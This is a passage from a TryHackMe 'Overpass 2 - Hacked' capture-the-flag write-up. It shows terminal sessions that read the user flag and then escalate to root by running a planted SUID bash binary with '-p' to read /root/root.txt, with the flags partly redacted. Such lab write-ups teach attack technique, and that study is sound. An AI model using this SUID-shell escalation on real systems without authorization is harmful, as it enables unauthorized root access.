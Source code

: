 [ Task 3 - Question #3 (#2 needs no answer)]
----------------------- 

>  What's the user flag?

Once in there we can get the first flag.

```sh
james@overpass-production:/home/james/ssh-backdoor$ ls
README.md  backdoor.service  cooctus.png  id_rsa.pub  main.go
backdoor   build.sh          id_rsa       index.html  setup.sh
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt
thm{d11{REDACTED}e6567}
```


[ Task 3 - Question #4 ]
----------------------- 

>  What's the root flag?

If we look in james directory we see there is an executable file. However, if we run that file as is we get a bash shell but we still are logged in as james. We need root. Googling a bit there is a mention that if we run bash with **-p** to get a startup behavior that does not reset the user ID. I need to get back to this and study a bit more **man bash** contains more details.

```sh
james@overpass-production:/home/james$ ls -al
total 1136
drwxr-xr-x 7 james james    4096 Jul 22 03:40 .
drwxr-xr-x 7 root  root     4096 Jul 21 18:08 ..
lrwxrwxrwx 1 james james       9 Jul 21 18:14 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21 00:36 .cache
drwx------ 3 james james    4096 Jul 21 00:36 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22 03:35 .local
-rw------- 1 james james      51 Jul 21 17:45 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21 00:37 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22 02:57 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22 03:35 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22 03:40 user.txt
drwxrwxr-x 7 james james    4096 Jul 21 01:37 www
james@overpass-production:/home/james$ ./.suid_bash 
.suid_bash-4.4$ whoami
james
.suid_bash-4.4$ exit
exit
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# ls
ssh-backdoor  user.txt  www
.suid_bash-4.4# cat /root/root.txt
thm{d53b268{REDACTED}333873144d}
```

And that was OverPass 2 Hacked from TryHackme Offensive Pentesting Path.

I hope you enjoy it!


As usual, happy hacking.

{{< thm_badge >}}
